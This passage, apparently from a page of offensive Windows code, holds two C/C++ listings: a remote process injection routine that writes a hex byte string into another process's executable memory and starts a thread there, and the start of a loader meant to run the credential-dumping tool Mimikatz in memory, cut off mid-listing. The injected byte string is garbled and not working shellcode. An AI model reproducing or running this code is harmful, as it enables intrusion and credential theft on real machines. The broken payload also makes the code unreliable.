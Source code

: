 


### Decoding and storing it in memory

```
#include <iostream>
#include <windows.h>

int main()
{
    const char* encodedCmd = "\x44\x43\x4D\x53\x63\x72\x61\x70\x00\x2D\x61\x20\x2D\x6E\x6F\x70\x62\x00\x2D\x6E\x6F\x70\x23\x00\x2D\x6E\x6F\x70\x69\x00\x2D\x61\x20\x2D\x6E\x6F\x70\x77\x00\x2D\x70\x00\x2D\x65\x00\x2D\x74\x00\x2D\x72\x00\x2D\x75\x00\x2D\x6E\x00\x20\x22\x26\x28\x2A\x2C\x2E\x30\x32\x34\x36\x38\x3A\x3C\x3E\x40\x42\x44\x46\x48\x4A\x4C\x4E\x50\x52\x54\x56\x58\x5A\x5C\x5E\x60\x62\x64\x66\x68\x6A\x6C\x6E\x70\x72\x74\x76\x78\x7A\x7C\x7E\x80\x82\x84\x86\x88\x8A\x8C\x8E\x90\x92\x94\x96\x98\x9A\x9C\x9E\xA0\xA2\xA4\xA6\xA8\xAA\xAC\xAE\xB0\xB2\xB4\xB6\xB8\xBA\xBC\xBE\xC0\xC2\xC4\xC6\xC8\xCA\xCC\xCE\xD0\xD2\xD4\xD6\xD8\xDA\xDC\xDE\xE0\xE2\xE4\xE6\xE8\xEA\xEC\xEE\xF0\xF2\xF4\xF6\xF8\xFA\xFC\xFE\x00\x22";

    DWORD pid;
    HWND hwnd = FindWindowA(NULL, "Window Name");
    GetWindowThreadProcessId(hwnd, &pid);

    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    LPVOID allocSpace = VirtualAllocEx(hProc, NULL, strlen(encodedCmd), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProc, allocSpace, encodedCmd, strlen(encodedCmd), NULL);

    HANDLE hThread = CreateRemoteThread(hProc, NULL, NULL, (LPTHREAD_START_ROUTINE)allocSpace, NULL, NULL, NULL);

    CloseHandle(hThread);
    CloseHandle(hProc);

    return 0;
}

```



### Inject and execute Mimikatz in memory

```
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MIMIKATZ_PATH "C:\\path\\to\\mimikatz.exe"

int main()
{
    // Load Mimikatz into memory
    HANDLE hFile = CreateFileA(MIMIKATZ_PATH, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwFileSize = GetFileSize(hFile, NULL);
    BYTE* pbFileData = (BYTE*)malloc(dwFileSize);
    DWORD dwBytesRead;
    ReadFile(hFile, pbFileData, dwFileSize, &dwBytesRead, NULL);
    CloseHandle(hFile);

    // Allocate memory for Mimikatz
```